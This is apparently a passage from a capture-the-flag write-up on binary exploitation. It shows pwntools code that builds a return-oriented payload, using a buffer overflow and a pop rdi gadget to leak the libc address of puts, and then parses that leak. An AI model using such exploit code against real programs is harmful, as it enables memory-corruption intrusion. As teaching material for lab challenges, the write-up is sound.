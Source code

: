 ```python
pop_rdi = exe.address + 0x0000000000001703

payload = b'A'*0x118
payload += flat(
    pop_rdi, exe.got['puts'],
    exe.plt['puts']
    )
payload = payload.ljust(0x978, b'A')
```

The gadget you can get by using `ROPgadget`. After executing script, we can see the address leaked:

![puts_address.png](images/puts_address.png)

We can get that address with this code:

```python
p.recvline()
puts_addr = u64(p.recvline()[:-1] + b'\x00\x00')
log.info("Puts address: " + hex(puts_addr))
```

Let's connect to docker and get the address, then go to https://libc.blukat.me/ to find the libc (if you don't want to cheat):

![get-puts-leak.png](images/get-puts-leak.png)

![query-libc.png](images/query-libc.png)
